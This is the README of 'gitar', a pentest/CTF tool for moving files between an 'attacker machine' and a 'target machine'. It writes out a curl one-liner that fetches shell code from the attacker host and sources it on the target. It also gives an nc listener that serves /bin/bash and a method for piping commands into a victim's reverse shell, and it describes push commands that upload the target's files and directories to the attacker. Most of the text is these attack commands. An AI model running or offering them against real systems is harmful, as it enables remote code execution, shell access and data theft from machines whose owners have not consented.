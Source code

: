 <div align=center>
<h1>gitar</h1>
<img src=https://github.com/ariary/gitar/blob/main/img/gitar-logo.png width=150>
	
<strong>📡 A more sophisticated python HTTP server sibling <br>🎸 with even simpler interactions for file exchange (Pentest/CTF) </strong>
<br>
</div>

|![demo](https://github.com/ariary/gitar/blob/main/img/gitar-demo.gif)|
|:---:|
|**~>** Have the  ***simplest possible shortcuts*** to upload/download file to/from the target machine<br>**~>** ***No installation needed*** on target machine<br>**~>** ***Fast and simple*** deployment|



## TL;DR *- and listen music*

On my target machine:
 - **Download a file** from my attacker machine: `pull [file]`
 - **Download a directory** from my attacker machine: `pullr [directory]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a directory** to my attacker machine: `pushr [directory]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up

***~>*** To make **set up even simpler** shortcut/aliases are a great benefit. See [them 💥](https://github.com/ariary/bang/blob/main/README.md#gitar-pentest-easy-file-sharing)

### Pre-requisites

* HTTP Network connectivity between attacker & target machines
* On target machine: `curl` 
	* `tar` for directory upload 
* On attacker machine: 
	* `xclip` to copy command on clipboard (not required)
	* `tree`: to expose it trough server (not required)

The aim is to keep "target requirements" as fit as possible. Attacker machine requirements are not a big deal as we have plenty control over it and time to configure it.

### Launch `gitar` server 
 
#### (Attacker machine)

Launch `gitar` server: 
```shell
gitar -e [server_reachable_ip]
```

#### (Target machine)

Get shortcuts and source them. The one-liner corresponding is by default copy on clipboard. It is also provided by step 1. (in gitar output):
```shell
curl -s http://[attacker_ip:port]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias
```

**And that's all, you can now `push` or `pull` file [🎶](#tldr---and-listen-music)**

 [`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files)

### Secure launch of `gitar` server

 
This is basicaly the same as launching `gitar` server. But as we expose our http server we become the prey. Hence we must harden a bit the server. To do this we launch `gitar` inside a container and use HTTPS.

* To enable HTTPS you must have certificates. Generate them with `generate.sh`.
* To use container image, you have to built it from ` Dockerfile`: `make build.image-gitar`

The following steps expose files of current directory. Files uploaded by remote are written inside current directory also.
#### (Attacker machine)

Launch `gitar` server: 
```shell
docker run --rm --cap-drop=all --cap-add=dac_override -v "${PWD}:/app/upload" -v "${HOME}/.gitar/certs/:/certs:ro" -v "${PWD}:/app/download" -p 9237:9237 gitar -copy=false -u /app/upload -d /app/download -tls=true -c /certs
```

#### (Target machine)

Get shortcuts and source them. The one-liner corresponding is in the container stdout.

**You can now `push`or `pull` file being more safe [🎶](#tldr---and-listen-music)**

[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files-safely)

### Load shortcut directly in your reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*

#### (Target machine)

Launch your classic listener:
```shell
nc -nvlp 4444 -e /bin/bash
```

#### (Attacker machine)

1. Launch `gitar`server : `gitar -e [server_reachable_ip]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
2. Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `[CTRL+V]` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not benefit of bash completion)*

**And enjoy you revshell [🎶](#tldr---and-listen-music)**

## Enhancement 🛣️

**~>** *All improvements must keep `gitar` simple and don't add unlikely pre-requisites (especially for the target machine)*

**Useful cause we will expose our http server and thus we become the prey**
- Hardening container image (use a non-root user, but in same time we have to be able to read/write from host volumes)
- HTTPS, basic authent (for the file server part)

**Improve UX**
- Handle case when curl isn't on target machine (wget version?) *Proposal: flag `method` (default curl), will determine the handler "alias" and adapt it in function (wget and Invoke-Webquest)
- An option to directly launch the reverse shell session with shortcut from `gitar`
- Soft to workaround limit due to `cat` use for reverse shell connection => autocompletion in reverse shell will not work as we have a pipe not a terminal. (To solve the pb we must have a prgm that creates a pseudoterminal, spawns a program connected to this pseudoterminal [see](https://stackoverflow.com/questions/5843741/how-can-i-pipe-initial-input-into-process-which-will-then-be-interactive) )


<div align=center><img src="https://github.com/ariary/gitar/blob/main/img/gitar-small.png"><div>
	
	

